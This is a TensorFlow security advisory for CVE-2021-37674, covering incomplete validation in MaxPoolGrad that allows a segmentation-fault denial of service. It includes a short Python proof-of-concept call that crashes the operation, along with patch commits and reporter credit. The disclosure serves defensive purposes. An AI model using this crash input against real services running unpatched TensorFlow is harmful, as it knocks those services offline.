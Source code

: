 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2021-148.md
## TFSA-2021-148: Incomplete validation in `MaxPoolGrad`

### CVE Number
CVE-2021-37674

### Impact
An attacker can trigger a denial of service via a segmentation fault in
`tf.raw_ops.MaxPoolGrad` caused by missing validation:

```python
import tensorflow as tf

tf.raw_ops.MaxPoolGrad(
  orig_input = tf.constant([], shape=[3, 0, 0, 2], dtype=tf.float32),
  orig_output = tf.constant([], shape=[3, 0, 0, 2], dtype=tf.float32),
  grad = tf.constant([], shape=[3, 0, 0, 2], dtype=tf.float32),
  ksize = [1, 16, 16, 1],
  strides = [1, 16, 18, 1],
  padding = "EXPLICIT",
  explicit_paddings = [0, 0, 14, 3, 15, 5, 0, 0])
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/460e000de3a83278fb00b61a16d161b1964f15f4/tensorflow/core/kernels/maxpooling_op.cc)
misses some validation for the `orig_input` and `orig_output` tensors.

The fixes for
[CVE-2021-29579](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2021-068.md)
were incomplete.

### Patches
We have patched the issue in GitHub commit
[136b51f10903e044308cf77117c0ed9871350475](https://github.com/tensorflow/tensorflow/commit/136b51f10903e044308cf77117c0ed9871350475).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang of Baidu Security.
